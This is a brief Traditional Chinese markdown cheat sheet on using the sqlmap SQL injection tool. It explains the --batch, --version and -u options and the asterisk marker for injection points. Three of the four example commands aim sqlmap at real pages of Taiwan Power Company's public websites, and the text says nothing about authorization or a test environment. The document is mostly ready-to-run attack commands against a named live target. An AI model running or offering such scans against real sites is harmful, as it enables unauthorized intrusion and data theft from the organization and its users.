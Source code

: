 # 如何使用 sqlmap

### 用預設答案回答所有 sqlmap 問題，後面加 --batch
```sh
sqlmap -u "https://www.taipower.com.tw/TC/page.aspx?mid=44" --batch
```

### 檢查 sqlmap 有沒有安裝
```sh
sqlmap --version
```

### 指定目標，後面加 -u
```sh
sqlmap -u "https://www.taipower.com.tw/TC/page.aspx?mid=44"
```

### 手動指定參數位置，後面加*
```sh
sqlmap -u "https://iest.taipower.com.tw/Home/PublicationDetail/32*"
```
